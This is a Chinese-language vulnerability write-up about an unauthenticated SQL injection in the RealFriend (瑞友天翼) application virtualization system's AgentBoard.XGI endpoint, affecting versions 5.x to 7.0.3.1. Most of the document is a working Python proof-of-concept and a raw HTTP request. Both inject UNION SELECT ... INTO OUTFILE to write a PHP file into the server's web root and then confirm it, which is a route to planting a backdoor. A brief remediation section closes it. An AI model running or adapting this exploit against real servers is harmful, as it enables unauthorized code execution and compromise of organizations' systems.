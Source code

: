 # 

# 瑞友天翼应用虚拟化系统 AgentBoard.XGI 远程代码执行漏洞

## 漏洞描述

瑞友天翼应用虚拟化系统是基于服务器计算架构的应用虚拟化平台，它将用户各种应用软件集中部署到瑞友天翼服务集群，客户端通过 WEB 即可访问经服务器上授权的应用软件，实现集中应用、远程接入、协同办公等。未经身份认证的远程攻击者可以利用系统中存在的 SQL 注入漏洞，写入后门文件，从而执行远程代码。

## 漏洞影响

```
5.x <= 瑞友天翼应用虚拟化系统 <= 7.0.3.1
```

## 漏洞复现

poc

```
import requests
import sys

url = sys.argv[1]
payload="/AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C1.php%22+--+-&cmd=UserLogin"
repose = requests.get(url=url+payload)
if repose.status_code ==200:
    a = url + '1.php'
    b = requests.get(url=a)
    if b.status_code == 200:
        print('[+] 漏洞存在，验证地址: {}1.php '.format(url))
```

payload

```
GET /AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C2.php%22+--+-&cmd=UserLogin HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: CookieLanguageName=ZH-CN; CookieAuthType=0
Upgrade-Insecure-Requests: 1
```

## 漏洞修复

1. 避免将该系统开放至公网。
2. 官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，建议您在升级前做好数据备份工作，避免出现意外，酌情升级至安全版本：http://soft.realor.cn:88/Gwt7.0.4.1.exe
